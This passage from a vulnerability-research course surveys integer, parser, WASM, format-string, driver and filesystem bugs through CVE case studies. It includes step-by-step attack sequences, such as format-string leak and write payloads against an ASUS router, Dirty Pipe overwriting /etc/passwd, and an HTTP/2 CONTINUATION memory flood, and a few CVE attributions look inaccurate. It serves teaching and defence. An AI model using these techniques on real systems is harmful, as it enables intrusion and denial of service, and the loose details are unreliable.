char *buf = malloc(size);  // Allocates small buffer due to wrap-around
memcpy(buf, user_data, original_large_size);  // Heap overflow
```

**Case Study - CVE-2024-38063 (Windows TCP/IP Integer Underflow RCE)**:

- **The Bug**: The Windows TCP/IP stack contained a critical integer underflow vulnerability in its IPv6 packet processing code. When handling specially crafted IPv6 packets with malformed extension headers, the TCP/IP driver (tcpip.sys) performed arithmetic operations that could result in an integer underflow, leading to out-of-bounds memory access. The vulnerability occurred during IPv6 packet reassembly when calculating buffer sizes for packet fragments.
- **The Attack**: A remote unauthenticated attacker could send specially crafted IPv6 packets to a vulnerable Windows system over the network. The malformed packets would trigger the integer underflow during packet reassembly or extension header processing, causing a buffer overflow in kernel memory. The attack sequence:
  1. Craft IPv6 packets with specific extension header configurations
  2. Trigger the underflow in size calculations (e.g., `size = header_length - offset` where `offset > header_length`)
  3. The underflowed value wraps to a large unsigned integer (e.g., -1 becomes 0xFFFFFFFF)
  4. Kernel allocates small buffer based on wrapped value modulo some limit
  5. Subsequent copy operation uses original large size, causing heap overflow
  6. Heap overflow leads to kernel memory corruption and RCE
- **The Impact**: Remote Code Execution with SYSTEM privileges on affected Windows systems. CVSS Score: 9.8 (Critical). Affected Windows 10 (all versions from 1507 through 22H2), Windows 11 (21H2, 22H2, 23H2, 24H2), and Windows Server versions from 2008 through 2022. The vulnerability was particularly dangerous because:
  - Network-reachable without authentication
  - No user interaction required
  - Kernel-level code execution
  - Affects default Windows configurations with IPv6 enabled
  - Potentially wormable (could propagate automatically like SMBGhost)
- **The Fix**: Microsoft released patches in August 2024 (Patch Tuesday KB updates including KB5041580, KB5041585, KB5041587) that added proper bounds checking to IPv6 packet processing and corrected integer arithmetic operations in the TCP/IP stack to prevent underflow conditions. The fix ensured that all subtraction operations check for underflow before use.
- **Why It Matters**: This demonstrates how integer underflow in network protocol parsers can lead to critical RCE vulnerabilities. The bug affected fundamental networking code that processes untrusted network input, making it a prime target for wormable exploits similar to SMBGhost (CVE-2020-0796) and EternalBlue. It highlights the ongoing challenges of secure integer arithmetic in performance-critical kernel code where bounds checking overhead is often minimized. The vulnerability also underscores why integer underflow is just as dangerous as overflow—when an unsigned calculation goes negative, it wraps to a massive positive value (e.g., 0 - 1 = 0xFFFFFFFF for 32-bit), defeating size limits and causing massive over-allocation or buffer overflows.

### Signed vs. Unsigned Integer Vulnerabilities

**The Issue**: C/C++ performs implicit conversions between signed and unsigned integers, following complex rules that can surprise developers.

**Case Study - CVE-2024-47606 (GStreamer Signed-to-Unsigned Integer Underflow)**:

- **The Bug**: The GStreamer multimedia framework contained a signed-to-unsigned integer conversion vulnerability in the `qtdemux_parse_theora_extension` function within `qtdemux.c`. The vulnerability occurred when a `gint` (signed integer) size variable underflowed to a negative value (e.g., -6 or 0xFFFFFFFA in 32-bit representation), which was then implicitly cast to an unsigned 64-bit integer, becoming 0xFFFFFFFFFFFFFFFA. This massive value was passed to `gst_buffer_new_and_alloc` for memory allocation.
- **The Attack**: An attacker could craft a malicious MP4/MOV media file with specially structured Theora extension data designed to trigger the signed integer underflow. The attack flow:
  1. Malicious media file contains Theora extension with crafted size fields
  2. `qtdemux_parse_theora_extension` calculates size using signed arithmetic
  3. Calculation underflows: `size = field1 - field2` where `field2 > field1`, resulting in negative value (e.g., -6)
  4. Negative 32-bit value (0xFFFFFFFA) is cast to 64-bit unsigned (0xFFFFFFFFFFFFFFFA)
  5. `gst_buffer_new_allocate` → `_sysmem_new_block` adds alignment/header to this huge size
  6. Addition causes overflow of `slice_size` variable, wrapping back to small value (0x89 bytes)
  7. Only 0x89 bytes allocated despite huge requested size
  8. Subsequent `memcpy` in `gst_buffer_fill` copies large data into tiny buffer
  9. Buffer overflow overwrites `GstMapInfo` structure, corrupting function pointers
  10. `gst_memory_unmap` calls corrupted `mem->allocator->mem_unmap_full` function pointer
  11. Function pointer hijack achieves arbitrary code execution
- **The Impact**: Remote code execution when processing malicious media files.
  - GStreamer is used by countless applications (GNOME, KDE, Firefox, Chrome, VLC derivatives)
  - Media files are commonly shared and automatically processed
  - Exploitation provides reliable function pointer hijack primitive
  - Affects both desktop and embedded systems (smart TVs, IoT devices)
- **The Fix**: GStreamer 1.24.10 (December 2024) fixed the vulnerability by:
  - Adding explicit checks for negative values before casting signed to unsigned
  - Using safe integer arithmetic that detects underflow
  - Validating size calculations before memory allocation
  - Implementing bounds checking on all Theora extension parsing
- **Why It Matters**: This is a textbook example of signed-to-unsigned conversion vulnerabilities (CWE-195). In C/C++, implicit conversions between signed and unsigned integers follow complex rules that developers often misunderstand:
  - Negative signed integers become huge positive unsigned values when cast
  - The bit pattern is preserved, but interpretation changes
  - Compilers often don't warn about these dangerous conversions
  - The issue is especially common in size calculations where subtraction can go negative

  The vulnerability demonstrates the full exploitation chain from integer bug to code execution: underflow → type confusion → allocation mismatch → heap overflow → structure corruption → function pointer hijack. It's a perfect teaching example of why mixing signed and unsigned arithmetic in security-critical code is dangerous.

### Parser Vulnerabilities

**What They Are**: Parsers convert structured data (files, network protocols, etc.) into internal program representations. Their complexity makes them prime targets for fuzzing and exploitation.

**Why Parsers Are Vulnerable**:

1. **Complexity**: Handling numerous edge cases, optional fields, nested structures
2. **Performance vs. Safety Trade-offs**: Optimizations often bypass safety checks
3. **Incomplete Specifications**: Real-world data doesn't always match RFC specs
4. **Legacy Compatibility**: Supporting old, broken implementations introduces bugs

**Common Parser Vulnerability Classes**:

**Network Protocol Parsers**:

**QUIC / HTTP/3**:

- **Attack Surface**: Coalesced frames, reorder/timing corner cases
- **Vulnerability Types**: Integer overflows in frame length parsing, state machine confusion
- **Reference**: RFC 9000 (QUIC), RFC 9114 (HTTP/3)

**HTTP/2**:

- **Attack Surface**: Stream state machine, flow control
- **Vulnerability Types**: Integer edge cases in flow control, stream desync
- **Common Bugs**: Missing max-stream checks, improper GOAWAY handling
- **Reference**: RFC 7540

**gRPC / Protobuf**:

- **Attack Surface**: Length encoding, type coercion, FFI boundaries
- **Vulnerability Types**: Length truncation across language FFI, map/list coercion
- **Common Bugs**: Varint parsing errors, recursive message handling

**GraphQL**:

- **Attack Surface**: Query complexity, input coercion, resolver recursion
- **Vulnerability Types**: DoS via complex queries, type coercion bypass
- **Common Bugs**: Missing depth limits, injection through variables

**File Format Parsers**:

**Image Formats** (PNG, JPEG, GIF, WebP):

- **Complexity**: Compression algorithms, color spaces, metadata chunks
- **Common Bugs**: Integer overflows in dimension calculation, heap overflows in decompression
- **Historic Examples**: libpng chunk handling, libjpeg progressive decoding

**Document Formats** (PDF, Office, RTF):

- **Complexity**: Embedded objects, macros, fonts, encryption
- **Common Bugs**: Font parser overflows, object stream handling, macro execution
- **Attack Value**: High - often opened by users without suspicion

**Archive Formats** (ZIP, RAR, 7z):

- **Complexity**: Compression algorithms, encryption, file metadata
- **Common Bugs**: Path traversal, symlink attacks, decompression bombs
- **Recent Example**: 7-Zip symlink vulnerability (covered in Day 2)

**Multimedia Parsers** (MP4, AVI, MKV):

- **Complexity**: Multiple codec support, container formats, subtitle handling
- **Common Bugs**: Integer overflows in frame size calculations, codec-specific bugs
- **Attack Vector**: Malicious media files shared on messaging platforms

**Network Protocol Parser Example:**

**Case Study - CVE-2024-27316 (nghttp2 HTTP/2 CONTINUATION Frame DoS)**:

- **The Bug**: The nghttp2 HTTP/2 library (used by Apache httpd, nginx, and many other servers) contained a vulnerability in its handling of CONTINUATION frames. According to the HTTP/2 specification (RFC 7540), HEADERS frames can be split across multiple CONTINUATION frames when header data is too large. However, nghttp2 failed to limit the total accumulated size of header data across CONTINUATION frames. An attacker could send an unlimited number of CONTINUATION frames, each adding to the accumulated header buffer in memory without any upper bound, leading to unbounded memory consumption.

- **The Attack**: An attacker could establish an HTTP/2 connection to a vulnerable server and execute the following attack sequence:
  1. Send a valid HEADERS frame to start a new stream
  2. Send continuous CONTINUATION frames without setting the END_HEADERS flag
  3. Each CONTINUATION frame adds data to the accumulated header buffer
  4. Server allocates more memory for each CONTINUATION frame received
  5. Process repeats until server memory is exhausted
  6. Server becomes unresponsive or crashes due to OOM (Out of Memory)

  The attack was extremely efficient because:
  - Single TCP connection could exhaust gigabytes of server memory
  - Very low bandwidth required from attacker (small CONTINUATION frames)
  - No authentication or special privileges needed
  - Attack could bypass many rate-limiting mechanisms

- **The Impact**: Denial of Service via memory exhaustion. CVSS Score: 7.5 (High). Affected:
  - nghttp2 library versions prior to 1.61.0
  - Apache HTTP Server 2.4.17 through 2.4.58 (when HTTP/2 enabled)
  - nginx with nghttp2 module
  - Major CDNs and cloud load balancers using nghttp2
  - Countless web services and APIs using HTTP/2

  Real-world impact included service outages at major web properties when the vulnerability was disclosed in April 2024. Attackers could crash servers or force them to become unresponsive with minimal resources, making it attractive for DDoS attacks.

- **The Fix**: Multiple fixes were deployed:
  - **nghttp2 v1.61.0** (April 2024): Added `NGHTTP2_DEFAULT_MAX_HEADER_LIST_SIZE` limit (default 64KB) for total accumulated header size across all CONTINUATION frames
  - **Apache httpd 2.4.59** (April 2024): Implemented `H2MaxHeaderListSize` directive to limit total header size
  - Servers now reject connections that exceed reasonable header accumulation thresholds
  - Added counters to track number of CONTINUATION frames per HEADERS

- **Why It Matters**: This vulnerability is part of a broader class of HTTP/2 protocol implementation flaws discovered in 2024, including:
  - **CVE-2023-44487** (HTTP/2 Rapid Reset): Stream creation/cancellation DoS
  - **CVE-2024-27316** (this one): CONTINUATION frame memory exhaustion
  - Multiple similar issues across different HTTP/2 implementations

  The vulnerability demonstrates several important security principles:
  1. **Protocol Complexity**: HTTP/2's frame-based design with stream multiplexing creates complex state machines prone to resource exhaustion bugs
  2. **Specification Gaps**: RFC 7540 didn't mandate limits on CONTINUATION frame accumulation, leaving implementations vulnerable
  3. **Defense in Depth**: Proper parser implementation requires:
     - Per-frame size limits (existed)
     - Total accumulated size limits (was missing)
     - Frame count limits
     - Time-based limits
  4. **Resource Accounting**: Parsers must track resource consumption across related operations, not just individual operations
  5. **Fuzzing Limitations**: This bug survived years of fuzzing because traditional fuzzers focus on crashes, not gradual resource exhaustion

  The attack is particularly effective because it exploits the legitimate protocol mechanism (CONTINUATION frames) rather than malformed data, making it harder to detect and block without breaking legitimate large-header use cases.

### WebAssembly Runtime Vulnerabilities

**What They Are**: WebAssembly (WASM) runtimes execute portable bytecode in browsers and standalone environments. They're essentially sophisticated parsers with JIT compilers that translate WASM bytecode to native machine code while maintaining sandboxing guarantees.

**Attack Surface**:

- **WASM JIT Optimization Bugs**: Similar to JavaScript JIT bugs, type confusion in Wasmtime, Wasmer
- **WASI Sandbox Escapes**: Host-call interfaces providing escape routes
- **Memory Model Bugs**: Typed-Func-Refs, GC, Tail-calls, Memory64 features expanding attack surface
- **Register Allocation Errors**: Compiler backend bugs leading to incorrect code generation
- **Stack Map Generation**: Missing or incorrect metadata for garbage collection

**Case Study - CVE-2022-31146 (Wasmtime Use-After-Free via Missing Stack Maps)**:

- **The Bug**: Wasmtime's code generator (Cranelift) contained a critical bug where functions using WebAssembly reference types (`externref`) were missing required metadata (stack maps) for runtime garbage collection. During Cranelift's migration to the `regalloc2` register allocator in version 0.37.0, the concept of "aliased virtual registers" was introduced to improve efficiency. However, aliasing resolution was accidentally not applied to the list of virtual registers holding reference values. This caused `regalloc2` to incorrectly believe that registers containing live reference-typed values were actually dead, leading to omitted stack maps for those values. When garbage collection occurred, the collector would mistakenly think that Wasm stack frames had no live references to GC-managed objects and would prematurely reclaim and deallocate them.

- **The Attack**: To trigger the vulnerability:
  1. A Wasmtime host passes a non-`null` `externref` value to a WebAssembly module
  2. The Wasm module uses reference type operations (e.g., `table.get` or `table.set` on x86_64)
  3. A garbage collection is triggered while active Wasm frames are on the stack (either through sufficient `externref` activity or explicit GC request from host)
  4. The GC incorrectly reclaims live `externref` objects due to missing stack maps
  5. The function continues executing and accesses the freed memory
  6. Result: Use-after-free condition allowing potential arbitrary code execution

- **The Impact**: Use-after-free vulnerability affecting Wasmtime versions 0.37.0 through 0.38.1 (May-July 2022). Any embedding running WebAssembly modules with reference types was potentially vulnerable. The bug could lead to:
  - Memory corruption when accessing freed GC objects
  - Arbitrary code execution if attacker could control freed memory contents
  - Sandbox escape in browser contexts or server-side WASM environments
  - Crash or undefined behavior in production WASM applications

  The vulnerability was particularly insidious because it was introduced during a performance optimization (register allocator migration) and went undetected because Wasmtime's fuzz target for GC and stack maps (`table_ops`) was mistakenly not performing actual work.

- **The Fix**: Wasmtime 0.38.2 (July 2022) corrected the aliasing resolution to properly apply to all virtual registers, including those holding reference values. This ensured `regalloc2` received accurate liveness information and generated correct stack maps for all frames using reference types. Additional fuzzing improvements were implemented to ensure the GC fuzz target actually exercises garbage collection.

- **Workarounds**: Users unable to immediately upgrade could:
  - Disable reference types proposal via `wasmtime::Config::wasm_reference_types(false)`
  - Downgrade to Wasmtime 0.36.0 or earlier (pre-regalloc2 migration)

- **Why It Matters**: This vulnerability demonstrates several critical aspects of WebAssembly runtime security:
  1. **Compiler Backend Complexity**: Modern JIT compilers have intricate register allocation and code generation logic where subtle bugs can have severe security implications
  2. **GC Integration Challenges**: Reference types and garbage collection add significant complexity to WASM runtimes, requiring precise coordination between generated code and runtime
  3. **Performance vs. Security Trade-offs**: Optimizations like register aliasing can introduce security bugs if not carefully implemented
  4. **Fuzzing Effectiveness Depends on Validation**: Even with fuzzing infrastructure, bugs can persist if the fuzzer isn't actually exercising the intended code paths
  5. **Stack Map Accuracy is Critical**: Missing or incorrect stack maps are a common source of GC-related vulnerabilities across many language runtimes (not just WASM)

### Key Takeaways

1. **Type safety is critical**: Languages without strong type systems or with unsafe casts are prone to type confusion. JIT compilers in browsers and WASM runtimes make type assumptions that, when violated, create exploitable conditions.
2. **JIT compilers are complex attack surfaces**: Optimizing compilers (V8 TurboFan, Cranelift) make assumptions about types and register allocation that, when wrong, create exploitable conditions. Even performance optimizations like register allocator migrations can introduce subtle security bugs.
3. **Integer bugs are subtle and pervasive**: They're easy to miss in code review, often require specific input ranges to trigger, and can lead to memory corruption when used for size calculations. Signed/unsigned confusion is particularly dangerous.
4. **Parser complexity breeds vulnerabilities**: Network protocol parsers (HTTP/2, QUIC), file format parsers (images, documents, archives), and media parsers all handle untrusted input and are prone to integer overflows, bounds checking failures, and state machine confusion.
5. **WASM runtimes face unique challenges**: Combining JIT compilation, garbage collection, and sandboxing creates complex interactions where bugs in register allocation, stack map generation, or memory model handling can lead to use-after-free and sandbox escapes.
6. **Defense requires multiple layers**:
   - Safe integer libraries (e.g., SafeInt for C++) and bounds-checked operations
   - Compiler warnings (`-Wformat-security`, `-Wuninitialized`) and static analysis
   - Runtime checks and sanitizers (though they have performance costs)
   - Language-level solutions (e.g., Rust's type system and integer overflow detection)
   - Continuous fuzzing of parsers and JIT compilers
   - Proper validation of all inputs, especially in parser state machines

### Discussion Questions

1. Why are JIT compilers (both JavaScript engines and WASM runtimes) particularly prone to type confusion and register allocation vulnerabilities? What makes optimizing compilers more vulnerable than interpreters?
2. How can developers safely perform integer arithmetic in security-critical code, especially when calculating buffer sizes or array indices? What are the pitfalls of mixing signed and unsigned integers?
3. What are the trade-offs between performance and safety when handling integer operations and parser validation? How do production systems balance these concerns?
4. How do modern languages like Rust address integer overflow and type safety issues? Why do these problems persist in C/C++ despite decades of awareness?
5. Why are parser vulnerabilities so common across different domains (network protocols, file formats, media codecs)? What common patterns lead to parser bugs?
6. What makes WebAssembly runtime security particularly challenging compared to traditional native code or interpreted languages? How do reference types and garbage collection complicate WASM JIT compilation?
7. How effective is fuzzing at discovering the types of vulnerabilities covered today (type confusion, integer bugs, parser flaws)? What are the limitations of fuzzing for finding these bug classes?

## Day 4: Format String and Injection Vulnerabilities

- **Goal**: Understand vulnerabilities arising from mixing code and data, especially format string bugs and complex parsers.
- **Activities**:
  - _Reading_:
    - "Hacking: The Art of Exploitation, 2nd Edition" by Jon Erickson - Chapter 0x350: "Format Strings"
    - "Attacking Network Protocols" by James Forshaw - Chapter 3: "Network Protocol Structures"
    - [OWASP Format String Vulnerability](https://owasp.org/www-community/attacks/Format_string_attack)
  - _Online Resources_:
    - [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
    - [Use of Externally-Controlled Format String](https://cwe.mitre.org/data/definitions/134.html)
    - [The Fuzzing Book](https://www.fuzzingbook.org/)
  - _Concepts_:
    - Format string functions and their dangers
    - Arbitrary read and write primitives
    - Parser complexity and bug surface
    - Protocol implementation vulnerabilities

### Format String Vulnerabilities

**What They Are**: Format string vulnerabilities occur when user-controlled data is passed as the format string argument to functions like `printf`, `sprintf`, `fprintf`, `syslog`, and similar functions in C/C++.

**The Core Issue**: Format functions use special directives (e.g., `%s`, `%x`, `%n`) to interpret subsequent arguments. When an attacker controls the format string, they can:

1. **Read arbitrary memory** using `%s` and `%x` directives
2. **Write arbitrary memory** using the `%n` directive (writes number of bytes output so far to a pointer)
3. **Crash the program** by causing invalid memory access

**How They Work**:

**Safe Usage**:

```c
printf("%s", user_input);  // user_input is data, not format string
```

**Vulnerable Usage**:

```c
printf(user_input);  // user_input IS the format string - DANGEROUS!
```

**Real-World Example - CVE-2023-35086 (ASUS Router Format String RCE)**:

**Background**: ASUS RT-AX56U V2 and RT-AC86U routers contained a format string vulnerability in their web administration interface (httpd daemon).

**The Bug**: The `do_detwan_cgi` module's `logmessage_normal` function directly used user-controlled input as a format string when calling `syslog()`, without any sanitization:

```c
void logmessage_normal(char *user_input) {
    syslog(LOG_INFO, user_input);  // VULNERABLE!
}
```

**The Attack** (Multi-Stage):

_Stage 1 - Information Leak_:

```
1. Attacker authenticates to router admin interface (or exploits auth bypass)
2. Sends HTTP request with format string: %p.%p.%p.%p
3. Router logs this to syslog, leaking stack addresses
4. %p directives reveal stack layout and defeat ASLR
5. Attacker maps out memory layout for reliable exploitation
```

_Stage 2 - Arbitrary Write_:

```
6. Attacker crafts format string with %n directive
7. Sends: %<offset>$<width>x%<target>$n
8. Overwrites function pointer or return address on stack
9. Redirects execution to attacker-controlled shellcode
10. Result: Remote Code Execution with root privileges
```

**Mitigations Bypassed**:

- **ASLR**: Bypassed via format string information leak (%p directives)
- **Stack Canaries**: Format string write can overwrite return address directly without touching canary
- **Authentication**: Initially required admin access, but later found exploitable without authentication

**The Fix**: ASUS firmware updates

```c
void logmessage_normal(char *user_input) {
    syslog(LOG_INFO, "%s", user_input);  // Safe - user input is data, not format
}
```

Additionally implemented input validation and enabled `-Wformat-security` compiler warnings.

**Why It Matters**: Format string vulnerabilities in embedded devices and routers are particularly dangerous because:

- Devices often run outdated firmware
- Many are internet-facing (UPnP, remote administration)
- Compromise provides persistent network access
- Can be chained with other vulnerabilities for full device takeover

### Application-Specific Parser and File Handling

**What They Are**: Vulnerabilities in parsers for archive formats, office documents, and other non-web file types. These provide initial access vectors through malicious file sharing.

**Case Study - CVE-2023-38831 (WinRAR Archive Parsing RCE)**:

- **The Bug**: WinRAR's archive handling code improperly processed archives containing both a folder and a file with the same name. When extracting, WinRAR could be tricked into executing a file when the user double-clicked what appeared to be a folder in the archive.
- **The Attack**: An attacker created a specially crafted RAR archive containing:
  1. A folder named "document.pdf" containing malicious executable
  2. A file named "document.pdf" containing benign PDF

  When a user double-clicked the entry in WinRAR, it would extract and execute the malicious executable instead of opening the PDF.

- **The Impact**: Remote code execution with user privileges when opening crafted archives. Widely exploited by multiple threat actor groups (trading firms, cryptocurrency targets). Affected WinRAR versions before 6.23.
- **The Fix**: WinRAR 6.23 corrected the handling logic to prevent ambiguous filename processing and added warnings for suspicious archive structures.
- **Why It Matters**: Archive parsers (ZIP, RAR, 7z) are common attack vectors for initial access via email attachments and file sharing. Logic flaws in extraction handling complement traditional memory corruption bugs.

**Document/Formula Parser Issues**:

**Case Study Context - CVE-2023-21716 (Microsoft Word RTF Remote Code Execution)**:

- **The Bug**: Microsoft Word's Rich Text Format (RTF) parser contained a heap-based buffer overflow vulnerability. When processing specially crafted RTF documents, the parser failed to properly validate the size of font table entries before copying data into a heap buffer.
- **The Attack**: An attacker could craft a malicious RTF document with oversized font table entries. When a victim opened the document in Microsoft Word, the parser would overflow the heap buffer during font processing, corrupting adjacent memory structures.
- **The Impact**: Remote code execution with user privileges when opening a malicious RTF file. No user interaction beyond opening the document was required.
- **The Fix**: Microsoft released patches in February 2023 (KB5002289 and related updates) that added proper bounds checking to the RTF font table parser and implemented safe buffer copy operations.
- **Defense**: Apply patches immediately, use Office in protected view for untrusted documents, implement email attachment filtering, and enable Microsoft Defender Application Guard where available.
- **Why It Matters**: Legacy parser components in office suites remain valuable targets due to widespread deployment and slow patching cycles. Document-based exploits are effective for initial access in enterprise environments. RTF parsers are particularly attractive because RTF files are often trusted more than macros and can bypass some security controls.

### Key Takeaways

1. **Code/Data separation is fundamental**: Format string vulnerabilities demonstrate the danger of treating user input as format specifiers rather than data. When code and data mix (user input as format string), attackers gain powerful primitives.
2. **Format strings provide dual primitives**: The `%x` and `%s` directives enable arbitrary memory reads (information disclosure for ASLR bypass), while `%n` enables arbitrary memory writes (overwriting return addresses, function pointers).
3. **Archive and document parsers are high-value targets**: File formats are shared via email and messaging, automatically processed, and often trusted by users. Logic flaws (WinRAR filename confusion) and memory corruption (Word RTF heap overflow) both lead to RCE.
4. **Parser complexity breeds vulnerabilities**: Archive formats (ZIP, RAR, 7z) and document formats (RTF, PDF, Office) have complex specifications, legacy compatibility requirements, and performance optimizations that introduce security bugs.
5. **Embedded devices amplify risk**: Format string bugs in router firmware (ASUS) are particularly dangerous because devices run outdated software, are internet-facing, and provide persistent network access when compromised.
6. **Defense requires safe APIs and validation**: Using `printf("%s", user_input)` instead of `printf(user_input)`, enabling compiler warnings (`-Wformat-security`), implementing input validation, and sandboxing parsers are essential defense layers.

### Discussion Questions

1. Why do format string vulnerabilities provide both information disclosure and arbitrary write capabilities? How does the `%n` directive enable memory writes, and why is this more powerful than traditional buffer overflows?
2. How do format string exploits differ between 32-bit and 64-bit architectures in terms of stack layout, argument passing conventions, and exploitation techniques?
3. Compare the WinRAR filename confusion vulnerability (logic flaw) with the Word RTF heap overflow (memory corruption). Which is easier to exploit reliably, and why do both attack vectors remain prevalent?
4. Why do parser vulnerabilities in archive and document formats continue to be common despite decades of research into safe parsing? What makes formats like RTF, PDF, and ZIP particularly prone to security bugs?
5. How can organizations defend against malicious document and archive attacks? What role do sandboxing (Protected View, containers), static analysis, and user education play?
6. What compiler flags, static analysis tools, and runtime protections can help prevent format string vulnerabilities in C/C++ code? Why do these bugs still appear in embedded device firmware?

## Day 5: Drivers, Filesystems, and Boot Vulnerabilities

- **Goal**: Understand vulnerabilities in kernel drivers, filesystem implementations, and boot security mechanisms.
- **Activities**:
  - _Reading_:
    - [The Linux Kernel Module Programming Guide](https://sysprog21.github.io/lkmpg/#character-device-drivers)
    - [Linux Driver Verification Project](http://linuxtesting.org/ldv)
    - [Windows Driver Security Checklist](https://learn.microsoft.com/en-us/windows-hardware/drivers/driversecurity/)
  - _Online Resources_:
    - [UEFI Secure Boot](https://uefi.org/specs/UEFI/2.10/32_Secure_Boot_and_Driver_Signing.html)
    - [Dirty Pipe Explanation](https://dirtypipe.cm4all.com/)
  - _Concepts_:
    - Driver IOCTL attack surfaces
    - Filesystem logic flaws and permission bypasses
    - BYOVD (Bring Your Own Vulnerable Driver) technique
    - Secure Boot bypass vulnerabilities
    - Pipe and splice operation security

### IOCTL/Syscall Handler Vulnerabilities

**What It Is**: Faulty user↔kernel marshalling and validation in system calls or device control paths (e.g., Windows `DeviceIoControl`, Linux `ioctl`).

**Case Study - CVE-2023-21768 (Windows AFD.sys Buffer Size Confusion)**:

- **The Bug**: The Windows Ancillary Function Driver (AFD.sys), which handles socket operations, had a buffer size confusion vulnerability in its IOCTL handler. When processing `IOCTL_AFD_SELECT` requests, the driver failed to properly validate the relationship between user-provided buffer size and the actual structure size.
- **The Attack**: An attacker could call `DeviceIoControl()` with a specially crafted input buffer where the declared size didn't match the actual data size. The driver would allocate a buffer based on one size value but copy data based on another, leading to an out-of-bounds write in kernel pool memory.
- **The Impact**: Local privilege escalation from standard user to SYSTEM. The OOB write primitive was used to corrupt adjacent kernel objects in the pool, hijacking control flow. Exploited in the wild before patching.
- **The Fix**: Microsoft KB5022845 added strict validation ensuring user-provided length matched expected structure size, used `ProbeForRead()` to validate user pointers, and implemented additional bounds checking before memory operations.
- **Why It Matters**: IOCTL/syscall handlers are common attack vectors due to size/bounds confusion, trusting user pointers without probing, double-fetch issues, and incomplete pointer chasing. These lead to LPE via UAF/OOB/arbitrary write and sandbox escapes.

### Driver and Peripheral Interface Vulnerabilities

**What They Are**: Validation failures and memory corruption in device drivers handling USB, HID, audio/video, network interfaces, and legacy hardware. Drivers represent a massive attack surface due to complex state machines, insufficient input validation, and third-party code quality issues.

**Case Study - CVE-2024-53150 (Linux ALSA USB-Audio OOB Read)**:

- **The Bug**: The Advanced Linux Sound Architecture (ALSA) USB audio driver failed to properly validate the bLength field of USB device descriptors when traversing clock descriptors. When parsing malformed audio streaming interface descriptors with shorter-than-expected bLength values, the driver could read beyond allocated buffer boundaries.
- **The Attack**: An attacker with physical access or USB emulation capabilities (e.g., BadUSB, malicious USB device, or compromised USB hub) could craft a USB audio device with bogus descriptors containing shortened bLength fields. When the device enumerated, the kernel driver would traverse these descriptors without proper bounds checking, leading to out-of-bounds reads.
- **The Impact**: Local information disclosure and potential privilege escalation from user to root. The out-of-bounds read primitive could leak sensitive kernel memory contents, including addresses to defeat KASLR. Added to CISA's Known Exploited Vulnerabilities catalog in April 2025.
- **The Fix**: Linux kernel 6.12.2 (December 2024) added comprehensive descriptor validation, checking bLength against sizeof() for clock source and clock multiplier descriptors, and validating array bounds for clock selector descriptors before traversal.
- **Why It Matters**: Driver vulnerabilities dominate Windows exploits (20+ vulnerabilities in drivers like RasMan since 2022) and are increasingly targeted in Linux. USB/HID/audio/video drivers are particularly vulnerable due to complex parsing requirements and are exploitable via physical access or emulated devices.

**Bring Your Own Vulnerable Driver (BYOVD)**:

**What It Is**: A technique where attackers abuse legitimate but vulnerable signed drivers to gain kernel-level access on Windows systems. While not a vulnerability per se, BYOVD is widely used in exploit chains.

**Case Study Context - Lazarus Group Driver Abuse**:

- **The Technique**: Attackers drop a legitimate but vulnerable signed driver (e.g., old versions of ASUS, Gigabyte, or MSI drivers) that Windows will load due to valid signature.
- **The Attack**: Once loaded, the vulnerable driver provides arbitrary kernel read/write primitives through its IOCTL interface. Attackers use this to disable security features (PatchGuard, AV/EDR), load unsigned drivers, or escalate privileges.
- **The Evolution**: Microsoft's response included Driver Blocklist expansion and Vulnerable Driver Blocklist. Advanced groups like Lazarus shifted from BYOVD to direct zero-day kernel exploits after 2023 due to increased detection.
- **Defense**: Enable Vulnerable Driver Blocklist (HVCI/Memory Integrity), monitor for unusual driver loads, implement application control policies.

**Win32k.sys Graphics/Window Manager Issues**:

**Case Study - CVE-2025-24983 (Win32k Use-After-Free EoP)**:

- **The Bug**: A use-after-free in the Windows Win32k kernel subsystem allowed an authorized local attacker to elevate privileges. Classified under CWE‑416, it was added to CISA’s KEV in March 2025.
- **The Attack**: By manipulating window/GUI objects via Win32k APIs, a local attacker could trigger the UAF and corrupt kernel memory to achieve SYSTEM.
- **The Impact**: Local privilege escalation to SYSTEM.
- **The Fix**: Microsoft updated Win32k to harden object lifetime handling and mitigate the UAF condition.
- **Why It Matters**: Win32k remains a frequent target due to complex GUI state and broad exposure to unprivileged code.

### Filesystem and Mounting Vulnerabilities

**What They Are**: Logic flaws in filesystem handling, mounting operations, and file metadata processing. Increasingly exploited for privilege escalation in multi-user and container environments.

**Case Study - CVE-2023-0386 (OverlayFS Privilege Escalation)**:

- **The Bug**: The Linux OverlayFS implementation failed to properly validate file capabilities when copying files from lower to upper layers. The vulnerability allowed bypassing user namespace UID/GID mapping for setuid/setgid binaries.
- **The Attack**: An attacker in an unprivileged container could create a specially crafted OverlayFS mount structure where setuid binaries from the lower layer retained elevated privileges when copied to the upper layer, despite being in a user namespace.
- **The Impact**: Container escape and privilege escalation from unprivileged user to root on the host system. Affected Kubernetes clusters, Docker environments, and systems using OverlayFS for container storage.
- **The Fix**: Linux kernel 6.2+ added proper capability validation during file copy operations, ensuring user namespace mappings are respected and setuid/setgid bits are stripped appropriately.
- **Why It Matters**: Filesystem logic flaws are common in Linux (OverlayFS, FUSE, NFS) and provide reliable privilege escalation paths in containerized environments. Improper ownership inheritance and permission checks are recurring patterns.

**Pipe/Stream Splicing Issues**:

**Case Study - CVE-2022-0847 (Dirty Pipe)**:

- **The Bug**: The Linux kernel's pipe implementation failed to properly initialize the `PIPE_BUF_FLAG_CAN_MERGE` flag when splicing pages from page cache into pipes. This allowed overwriting data in read-only files by splicing modified pages back.
- **The Attack**: An attacker could open a read-only file (e.g., `/etc/passwd`), use `splice()` to create a pipe containing pages from that file, modify the pipe buffer, then splice it back to overwrite the original file contents.
- **The Impact**: Local privilege escalation from any user to root by overwriting `/etc/passwd` or other privileged files. Extremely reliable exploitation requiring minimal permissions. Affected Linux kernels 5.8+ through 5.16.11.
- **The Fix**: Linux kernel 5.16.11+ properly initializes pipe buffer flags and prevents splicing back to read-only files.
- **Why It Matters**: Pipe and splice operations are complex kernel mechanisms with subtle state management requirements. Dirty Pipe demonstrated how initialization bugs can lead to powerful arbitrary file write primitives.

**Malicious File/Mount Handling**:

**Case Study - CVE-2025-24071 (Windows File Explorer Credential Leak)**:

- **The Bug**: Windows File Explorer improperly handled `.library-ms` files, which are XML-based library definition files. When parsing malicious `.library-ms` files with crafted UNC paths, Explorer would automatically attempt authentication to remote SMB shares.
